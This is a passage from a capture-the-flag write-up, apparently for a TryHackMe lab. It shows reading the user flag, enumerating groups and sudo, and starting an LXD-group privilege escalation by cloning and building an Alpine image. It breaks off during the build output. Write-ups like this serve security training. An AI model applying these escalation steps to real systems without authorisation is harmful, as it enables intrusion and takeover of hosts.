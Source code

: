 Im in! Lets grab the first flag.

```highlight
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
a5c2ff8b9c2e{{REDACTED}}
john@exploitable:~$ 
```

### Privilege Escalation

Now on to the root flag. Doing the command 'id' shows John is part of many groups including 'sudo' and 'lxd'. I tried 'sudo -l' but as I don't have John's password I cant run any commands as sudo.

```highlight
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
john@exploitable:~$ sudo -l
[sudo] password for john: 
Sorry, try again.
[sudo] password for john: 
Sorry, try again.
[sudo] password for john: 
sudo: 3 incorrect password attempts
john@exploitable:~$ 
```

However, lxd is interesting. LXD is a Linux container system. Googling 'lxd privesc' led me to an [article](https://www.hackingarticles.in/lxd-privilege-escalation/) with a overview of LXD, LXC and container technology. Also a step my step guide on how to use LXD to gain root privilege to the host machine.

First I use git clone to download the alpine builder. Once downloaded I ran the build script.

```highlight
┌─[✗]─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #git clone  https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Receiving objects: 100% (27/27), 16.00 KiB | 199.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #cd lxd-alpine-builder
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer/lxd-alpine-builder]
└──╼ #sudo ./build-alpine
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
```